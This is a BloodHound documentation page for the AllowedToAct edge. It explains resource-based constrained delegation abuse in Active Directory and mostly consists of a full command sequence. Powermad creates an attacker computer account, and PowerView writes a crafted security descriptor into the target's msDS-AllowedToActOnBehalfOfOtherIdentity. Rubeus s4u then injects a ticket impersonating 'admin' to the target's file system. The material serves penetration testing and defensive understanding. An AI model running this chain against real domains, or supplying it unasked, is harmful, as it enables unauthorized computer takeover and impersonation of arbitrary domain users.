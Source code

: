 ---
title: AllowedToAct
description: This edge allows an attacker to abuse resource-based constrained delegation to compromise the target. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.
---
<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

An attacker can execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket “as” this user.

One caveat is that impersonated users can not be in the “Protected Users” security group or otherwise have delegation privileges revoked. Another caveat is that the principal added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL _must_ have a service principal name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an attacker does not currently control an account with a SPN set, an attacker can abuse the default domain MachineAccountQuota settings to add a computer account that the attacker controls via the Powermad project.

**Abuse Info**

Abusing this primitive is currently possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson’s Powermad project can be used to add a new attacker-controlled computer account:
```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```bash
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```bash
Rubeus.exe hash /password:Summer2018!
```
And finally we can use Rubeus’ _s4u_ module to get a service ticket for the service name (sname) we want to “pretend” to be “admin” for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
See a video walk through of how to execute this attack here:

<iframe id="youtube-453" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for BloodHound 2.1's New Computer Takeover Attack" width="100%" height="420" src="https://www.youtube.com/embed/RUbADHcBLKg?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp" data-gtm-yt-inspected-6="true"></iframe>

## Opsec Considerations

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the ability to send/receive traffic in the domain.

## References

* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)
